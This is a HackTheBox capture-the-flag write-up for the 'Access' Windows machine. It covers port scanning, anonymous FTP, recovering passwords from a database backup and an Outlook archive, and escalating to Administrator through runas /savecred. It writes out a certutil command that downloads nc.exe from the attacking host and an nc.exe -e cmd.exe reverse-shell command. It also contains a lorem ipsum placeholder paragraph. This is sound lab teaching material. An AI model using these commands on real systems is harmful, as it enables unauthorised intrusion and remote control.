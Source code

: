 ```yaml
---
title: "HTB Write-up: Access"
date: 2018-12-19
category: [HackTheBox]
tags: [HackTheBox, HTB, windows, runas, certutil, 7z, readpst]
header:
    teaser: "/assets/images/htb/access/access.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![access_info.png](/assets/images/htb/access/access_info.png)

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this intial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.98
```

From `masscan`, it was revealed that TCP ports 21 (FTP), 23 (Telnet), and 80 (HTTP) were listening for connections. Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 21,80,23 -sC -sV -oA scans/discovered-tcp 10.10.10.98 
```

As expected, the services listening for connections on Access were FTP, Telnet, and HTTP. A screenshot of the result of the `nmap` scan is shown below.

![nmapresults.png](/assets/images/htb/access/nmapresults.png)

Of notable significance in this result is the "Anonymous FTP login allowed" line. This means that a user may access the FTP server running on Access as an anonymous user (with no password required). The process of accessing the FTP server in this manner is shown in the image below.

![ftp.png](/assets/images/htb/access/ftp.png)

Two directories were found in the root directory of the FTP server; a `Backups` directory and an `Engineer` directory. Searching through these directories revealed two interesting files; `backup.mdb` in the `Backups` directory and `Access Control.zip` in the `Engineer` directory. The FTP command `get` can be used to transfer the remote files to the local testing host. Depending on the contents being transferred with `get`, it is often advisable to transfer the data in binary mode (as opposed to in ASCII (text) mode). Binary mode transfers data byte-for-byte while ASCII mode will convert line endings from those of the sending system to those of the receiving system. Binary mode can be enabled with the FTP `binary` command. 

Once `backup.mdb` and `Access Control.zip` have been retrieved from the remote FTP server, they can be more thouroughly examined with the Linux `file` command. An example of this is demonstrated below.

```
root@kali:~/workspace/hackthebox/Access# file backup.mdb; file 'Access Control.zip'
backup.mdb: Microsoft Access Database
Access Control.zip: Zip archive data, at least v2.0 to extract
```

As files with the `.mdb` extension are not commonly used in Linux environments, a little searching was required to determine how to work with this Microsoft Access Database file type. The [MDBOpener](https://www.mdbopener.com) website was used to upload the `backup.mdb` Microsoft Access Database base, extract the contents, and export the data in CSV format. After parsing through the various tables present within the backup database, the `auth_user` table was eventually found, the contents of which are shown in the image below.

![authuser_csv.png](/assets/images/htb/access/authuser_csv.png)

As the content within the `auth_user` table appears to contain username-password combinations, the username-password pairs were used in attempts to access the Telnet server running on TCP port 23 of the target system, but to no avail. Time to look elsewhere.

Moving on to the second file retreived from the FTP server, the `'Access Control.zip'` file can be unzipped using the `7z` tool, as shown below.

```
root@kali:~/workspace/hackthebox/Access# 7z x 'Access Control.zip'
```

In this case, the file is password protected. Using the password `access4u@security` password found previously in the `auth_user` table within the Microsoft Access Database successfully unzips the `'Access Control.zip'` file, revealing the `'Access Control.pst'` file. Checking this file out with `file` reveals that the `.pst` file is a Microsoft Outlook email folder:

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.pst'
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

After a little research, it was found that the `readpst` tool as provided by the `pst-utils` package can be used to read the information within a `.pst` file. If necessary, `pst-utils` can be installed with the `apt-get install pst-utils` command. After using `read-pst` to reclaim the contents within the `'Access Control.pst'` file, the `'Access Control.mbox'` file is returned.

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.mbox'
Access Control.mbox: HTML document, UTF-8 Unicode text, with very long lines
```

As this contains UTF-8 Unicode text, it can be read using `vi`. A snippet of the contents within the `'Access Control.mbox'` file is shown below.

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

Thanks for the information, John. 

The username `security` with the password `4Cc3ssC0ntr0ller` can be used to log in Access using `telnet`. At this point, the `user.txt` flag can be read. This process is shown in the screenshot below.

![user_txt.png](/assets/images/htb/access/user_txt.png)

## Root
While running through the usual privelege escalation enumeration commands, something stood out as odd. After running the `net users administrator` command, it was revealed that the "Password Not Required" property has been set for the Administrator user. This means that the Administrator user is allowed passwordless logon to the system.

![net_user.png](/assets/images/htb/access/net_user.png)

Investigating this property further with the Windows `cmdkey /list` command, it can be seen that the Administrator user has a stored credential on the system.

![cmdkey.png](/assets/images/htb/access/cmdkey.png)

Continuing enumeration, the `ZKAccess3.5 Security System.lnk` shortcut file found on the Public user's desktop suggests that commands can be run as the Administrator using the `runas` Windows command along with the `/savecred` flag. The `runas` command can be used to run a Windows command as another system user. 

![savecred_link.png](/assets/images/htb/access/savecred_link.png)

Putting these pieces together, it is clear that system commands can be run as the Administrator user if the `/savecred` flag is included as part of the `runas` command. The fact that the Administrator does not need a password to logon to the system, that the Administrator user has a stored credential on the system, and that the `runas` command with the `/savecred` flag is being used on the system suggests a possible privelege elevation scenario.

To leverage this situtation, `nc.exe` can be transferred to the target system and then used to obtain a reverse shell that connects to the attacking machine.

In this case, the `certutil` Windows tool is used on the target system to download `nc.exe`to the target system. After using Python's `SimpleHTTPServer` to host `nc.exe` on the attacking system, the `certutil` command shown below was run on the target system to download the `nc` executable to the system.

```
C:\Users\security\Music>certutil.exe -urlcache -split -f http://10.10.14.2/nc.exe nc.exe
```

A screenshot of this process is included below.

![cert_util.png](/assets/images/htb/access/cert_util.png)

With `nc.exe` on the target system and a `nc` listener listening on the attacking system, the command shown below was run on the target system to create a reverse shell connection to the attacking system.

```
C:\Users\security\Music>runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.2 4444"
```

From the connection received on the attacking system, the `root.txt` flag can be read.

![root_txt.png](/assets/images/htb/access/root_txt.png)
